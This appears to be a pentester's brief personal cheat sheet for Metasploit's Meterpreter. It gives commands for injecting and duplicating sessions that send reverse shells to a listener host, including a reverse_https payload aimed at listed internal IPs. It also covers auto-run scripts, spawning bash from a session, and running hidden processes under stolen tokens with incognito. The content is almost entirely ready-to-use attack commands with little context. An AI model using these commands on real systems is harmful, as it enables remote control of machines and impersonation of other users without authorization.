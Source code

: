<!-- TITLE: Meterpreter -->
<!-- SUBTITLE: A quick summary of Meterpreter -->

# Sending Shells to other people

run duplicate -D -r -e executable_to_inject -p 4444 -r listenhost

Next command will send meterpreters to each ip in -mr list

run multi_meter_inject -pt windows/meterpreter/reverse_https -mr 10.128.129.200,10.128.129.201 -p 443

# Auto Run Script

set AutoRunScript multi_console_command -rc commands.rc

# Exec

execute -i -f bash
-i interact
-f foreground I think
will execute the process. exit returns to meterpreter.

Execing with other Token:
incognito
execute -t will use the current token
-h will hide from screen
-c will chanelize it
-i will let you interact with it


